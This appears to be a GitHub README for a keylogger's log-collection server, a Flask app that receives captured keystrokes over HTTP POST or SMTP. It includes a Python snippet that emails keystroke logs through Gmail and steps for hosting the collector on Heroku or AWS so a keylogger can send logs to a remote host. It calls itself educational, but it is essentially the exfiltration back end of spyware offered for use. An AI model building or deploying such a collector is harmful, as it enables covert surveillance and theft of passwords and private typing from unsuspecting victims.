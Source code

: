 # Keylogger Log Server

## Overview
This Flask-based log server receives and stores logs from the Windows-based keylogger (keylogger.c). It supports local operation (e.g., http://127.0.0.1:5000 or http://192.168.1.3:5000), SMTP email transmission, or remote server deployment for receiving logs. The server is designed for educational and ethical auditing purposes in controlled environments with explicit permission.

## Features

Receives keylogger logs via HTTP POST or SMTP email.
Stores logs in a local file (e.g., server_logs.txt) with timestamps.
Lightweight and customizable for local or remote setups.
Supports ethical use in cybersecurity labs.

## Requirements

**OS**: Any OS supporting Python (tested on Windows 11)
**Python**: Version 3.6 or higher
**Dependencies**: Flask (pip install flask), smtplib (standard library for SMTP)
**Network**: Local network access or internet for remote/SMTP setup

## Installation

1. Install Python 3.6+ from python.org.

2. Install Flask:
```bash
pip install flask
```

4. Clone or download the repository:

```bash
<pre>
git clone <repository-url>
cd log-server
</pre>
```



5. Ensure the keylogger is configured to send logs to the server’s URL (e.g., http://127.0.0.1:5000/log) or an email address for SMTP.


## Usage

1. Run the Flask server:
```bash
python log_server.py
```


3. The server starts at http://127.0.0.1:5000 (or a specified IP like 192.168.1.3:5000).

4. Logs are received at the /log endpoint (HTTP POST) or via email (SMTP) and saved to server_logs.txt.

5. Stop the server with Ctrl+C.


## Customization
**Local Server**

1. Default setup runs locally:
```bash
python log_server.py
```


3. Update the keylogger’s URL to match the server’s IP/port (e.g., http://192.168.1.3:5000/log).


**SMTP Email Transmission**

1. Modify log_server.py to send logs via email using smtplib:
```python
import smtplib
from email.mime.text import MIMEText

def send_email(log_data, recipient_email):
    msg = MIMEText(log_data)
    msg['Subject'] = 'Keylogger Log'
    msg['From'] = 'your_email@example.com'
    msg['To'] = recipient_email
    with smtplib.SMTP('smtp.gmail.com', 587) as server:
        server.starttls()
        server.login('your_email@example.com', 'your_app_password')
        server.send_message(msg)
---
```

2. Generate an app-specific password from your email provider (e.g., Gmail’s 2-Step Verification settings).

3. Configure the keylogger to call send_email with log data and a recipient email, or have the server forward POST requests as emails.


## Remote Server Deployment

1. Deploy to a cloud platform (e.g., Heroku, AWS EC2):

**Heroku:**

1. Create a Heroku app: heroku create your-app-name.

2. Push the code: git push heroku main.

3. Set dynamic port in log_server.py:
```python
import os
port = int(os.environ.get('PORT', 5000))
app.run(host='0.0.0.0', port=port)
---
```

5. Update the keylogger’s URL to the remote server’s address.


## Considerations

Do not store or transmit sensitive data without encryption.

## Challenges Overcome

1. Resolved networking issues for stable HTTP/SMTP log transmission.
2. Configured Flask for reliable POST request handling.
3. Managed log storage to prevent data loss.
4. Overcame SMTP authentication and remote deployment challenges.

License
This project is for educational purposes only and is not licensed for commercial or unethical use.
